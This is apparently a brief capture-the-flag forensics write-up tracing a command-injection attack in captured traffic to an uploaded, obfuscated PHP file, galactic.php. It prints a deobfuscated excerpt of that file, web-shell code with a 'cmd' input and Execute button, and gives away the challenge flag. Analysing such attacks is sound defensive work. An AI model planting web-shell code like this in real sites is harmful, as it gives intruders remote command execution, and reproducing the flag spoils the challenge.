




1. Find the command injection packets



2. Trace back to when the php file is being uploaded






3. Download galactic.php




4. Deobfuscate the php file

https://onecompiler.com/php/3z3arsf44

5. Flag stored as a comment

```php
.
.
.
.
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
.
.
.
.
```